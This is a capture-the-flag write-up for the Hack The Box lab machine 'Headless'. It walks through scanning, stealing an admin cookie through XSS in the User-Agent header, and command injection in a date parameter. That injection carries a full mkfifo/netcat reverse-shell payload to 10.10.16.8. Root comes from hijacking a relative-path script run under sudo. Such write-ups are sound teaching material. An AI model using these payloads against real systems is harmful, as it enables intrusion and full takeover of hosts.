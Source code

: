 ```yaml
---
description: https://app.hackthebox.com/machines/Headless/
---
```


# Headless

![image](https://gist.github.com/assets/56447720/2ea1270f-3a60-40b8-86bf-104143ad87a2)

## Port Scan

```bash

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJXBmWeZYo1LR50JTs8iKyICHT76i7+fBPoeiKDXRhzjsfMWruwHrosHoSwRxiqUdaJYLwJgWOv+jFAB45nRQHw=
|   256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICkBEMKoic0Bx5yLYG4DIT5G797lraNQsG5dtyZUl9nW
5000/tcp open  upnp?   syn-ack
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Sun, 24 Mar 2024 03:39:26 GMT
|     Content-Type: text/html; charset=utf-8
|
| << -- SNIPPED -- >>

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Dir scan

```bash

└─➜ ffuf -u http://10.129.131.122:5000/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt | tee dir.scan                                                                [0]

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.131.122:5000/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 813ms]
    * FUZZ: dashboard

[WARN] Caught keyboard interrupt (Ctrl-C)

```

## User

![image](https://gist.github.com/assets/56447720/f72a650c-a965-4fee-9df8-931cf73f3778)

### XSS on User Agent

I tried fuzzing payloads on the support page, but no luck. So I moved with HTTP headers, since the machine name also gave hint on headers.

![image](https://gist.github.com/assets/56447720/2eedfe97-9def-4a45-b219-b410f59b19e6)

After few seconds, we get Admin cookie on our python server

![image](https://gist.github.com/assets/56447720/2b0f61e4-b8e0-47b5-8cdb-fe92eb385686)

Let's head to `/dashboard` with admin.

![image](https://gist.github.com/assets/56447720/b67d41b7-038b-4f18-9caa-f09d6cc784bd)

### Cmd injection

On the date parameter, I noticed Command Injection. Payload : `date=2023-09-15%3bsleep+3`. Got response 3 seconds later.

* For user I used following payload:

```js
POST /dashboard HTTP/1.1
<SNIP>

date=2023-09-15%3brm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.16.8+4443+>/tmp/f
```

* And now we got user flag

```bash
dvir@headless:~/app$ id
id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
dvir@headless:~/app$
```

## Root

Root on this machine was toooooo easy

```bash
dvir@headless:~$ sudo -l
sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
dvir@headless:~$ sudo /usr/bin/syscheck
```

syscheck was a BASH script.

```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0

```

After reading it, we can find the vulnerability within seconds.

```bash
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi
```

It's using the initdb.sh file from current directory, we just need to make a script called `initdb.sh` and put `/bin/bash` in it.

```bash
dvir@headless:~$ pwd
pwd
/home/dvir
dvir@headless:~$ cat initdb.sh
cat initdb.sh
/bin/bash

```

* After running the script as sudo we get the root shell

```bash
dvir@headless:~$ sudo  /usr/bin/syscheck
sudo  /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.06, 0.02, 0.00
Database service is not running. Starting it...
id
uid=0(root) gid=0(root) groups=0(root)
python3 -c "import pty;pty.spawn('/bin/bash')"
root@headless:/home/dvir# echo 'echo 'PWNEDDDDDDDDDDDD AS ROOOOOOT'
echo 'PWNEDDDDDDDDDDDD AS ROOOOOOT'
PWNEDDDDDDDDDDDD AS ROOOOOOT
root@headless:/home/dvir#
```

\_\_\_\_\_\_\_\_\_\_heapbytes's still pwning.
